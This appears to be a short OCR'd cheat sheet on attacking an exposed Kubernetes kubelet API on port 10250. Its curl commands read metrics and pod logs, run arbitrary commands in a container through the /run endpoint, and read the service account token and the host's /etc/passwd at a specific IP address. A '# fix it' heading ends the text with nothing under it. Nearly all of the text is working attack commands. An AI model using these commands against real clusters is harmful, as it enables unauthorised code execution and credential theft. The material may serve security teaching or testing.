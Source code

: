 
# get infos

curl -k https://<ip>:10250/metrics
curl -k https://<ip>:10250/logs/pods/

# run code

kubectl apply -f pod.yaml

# get sensitive data

curl -XPOST -k https://<ip>:10250/run/<namespace>/<pod>/<container> -d "cmd=<command-to-run>"

curl -XPOST -k https://116.203.41.138:10250/run/default/my-privileged-pod/my-ubuntu -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"

curl -XPOST -k https://116.203.41.138:10250/run/default/my-privileged-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"

# fix it